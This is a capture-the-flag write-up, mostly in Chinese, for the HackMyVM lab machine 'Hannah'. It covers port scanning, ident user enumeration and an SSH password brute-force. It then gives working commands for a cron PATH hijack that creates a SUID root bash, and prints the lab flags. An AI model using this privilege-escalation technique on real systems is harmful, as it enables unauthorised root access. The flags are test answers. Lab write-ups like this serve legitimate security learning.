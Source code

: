 # Hannah

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Hannah

## Ip

192.168.5.40

# Scan

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
|_auth-owners: root
| ssh-hostkey:
|   3072 5f1c78369905320982d3d5054c1475d1 (RSA)
|   256 0669ef979b34d7f3c79660d1a1ffd82c (ECDSA)
|_  256 853dda74b2684ea6f7e5f58540902e9a (ED25519)
80/tcp  open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_/enlightenment
|_auth-owners: moksha
|_http-server-header: nginx/1.18.0
113/tcp open  ident?
|_auth-owners: root
```

80 web robots.txt 显示 /enlightenment 访问后是 404，扫描后也没其他路径。

再看 ident 113 端口枚举出来的服务运行用户信息，moksha 和 root，现在有一个用户名，尝试 rockyou 爆破，得到登陆密码: hannah ， ssh 登陆该用户。

得到 user flag：

```
moksha@hannah:~$ cat user.txt
HMVGGHFWP2023
```

/etc/crontab 发现 :

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

* * * * * root touch /tmp/enlIghtenment
```

发现 touch 的路径为 /usr/bin/touch ，PATH 中/media 路径在/usr/bin 之前，发现/media 目录权限是 777，可以执行路径劫持：

```
echo 'cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash' > /media/touch
chmod +x /media/touch
```

等待 1 分钟，出现 suid 程序 rootbash，得到 root flag：

```
moksha@hannah:/var/www/html$ /tmp/rootbash -p
rootbash-5.1# cd /root
rootbash-5.1# ls
root.txt
rootbash-5.1# cat root.txt
HMVHAPPYNY2023
```
